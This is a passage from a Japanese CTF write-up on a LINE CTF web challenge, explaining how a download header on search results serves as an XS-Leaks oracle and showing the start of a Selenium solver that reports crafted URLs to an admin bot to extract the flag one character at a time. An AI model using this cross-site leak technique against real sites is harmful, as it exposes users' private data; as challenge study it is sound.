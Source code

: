 8~9行目を見ると、下記の条件がすべて整っているとき、レスポンスヘッダに`Content-disposition: attachment`が入ってくることがわかる。

- 検索機能で得られたNoteの件数が1件以上である
- request.args.get('download')がNoneでない

要するに、検索機能において、クエリ文字列として`?download=`を与えた上で検索機能を実行した結果が、下記のように分かれる。

|検索機能で得られたNoteの件数|レスポンスに`Content-disposition: attachment`が付くか|
|:-:|:-:|
|1件以上|✅|
|1件よりも少ない|✖|

この性質をオラクルとしたXS Leaksが想定解法と予想した。
実際に、管理者に`{{BASE_URL}}/search?q=%&download`[^6]というURLをレポートしたところ、通常とは違う`ng`というメッセージが出たため、この予想は正しかった。

### Solver

下記のSolverを使って、flag文字列を頭から一文字ずつ抽出した。[^7]

```py
import os
import string
import subprocess
from concurrent.futures.thread import ThreadPoolExecutor
from urllib.parse import quote, urljoin

from selenium import webdriver
from selenium.webdriver.chrome.options import Options

BASE_URL = os.getenv('BASE_URL')

USERNAME = os.getenv('USERNAME')
PASSWORD = os.getenv('PASSWORD')

S = string.ascii_lowercase + string.digits + '-'

FLAG_PRE = 'LINECTF{'
FLAG_SUF = '}'


def length_is(n: int) -> str:
    return f'{FLAG_PRE}{"_" * n}{FLAG_SUF}'


def nth_char_is(n: int, c: str) -> str:
    return f'{FLAG_PRE}{"_" * (n - 1)}{c}%{FLAG_SUF}'


def prop_holds(prop: str):
    print(f"\r[info] Attempting this prop => '{prop}'\033[0K", end='')

    options = Options()
    options.add_argument('--headless')
    driver = webdriver.Chrome(os.getenv('CHROME_DRIVER_PATH'), options=options)
    try:
        # Login
        driver.get(urljoin(BASE_URL, '/login'))
        driver.find_element_by_css_selector('input[name=username]').send_keys(USERNAME)
        driver.find_element_by_css_selector('input[name=password]').send_keys(PASSWORD)
        driver.find_element_by_css_selector('button[type=submit]').submit()

        # Move to /report
        report_bug_button = driver.find_element_by_css_selector('a.button.is-warning.is-light')
```

[^1]: こちらは、チームメイトの[@y0d3n](https://twitter.com/y0d3n)氏と解きました。
[^2]: ひとまず簡単なWriteup出しておいて、復習するタイミングで詳細な解説を付けるやり方は、割とありな気がしている。
[^3]: FYI: <https://qiita.com/no1zy_sec/items/dfccd91cf76bf73b7754>
[^4]: GETリクエストがあればflagを入手するには十分だったため、他のメソッドのリクエストが発行できるかは調査しなかった。
[^5]: フォワードされた後、`app.main.LanguageNomarize(request)`を用いて、正規化される場合がある。
[^6]: `%`は0文字以上の文字列を表すワイルドカード
[^7]: 実際には、チームメイトの[@y0d3n](https://twitter.com/y0d3n)氏による手動リークの方が速かったが、プライバシーの観点から、彼の顔写真の代わりにPythonによるSolverスクリプトを掲載した。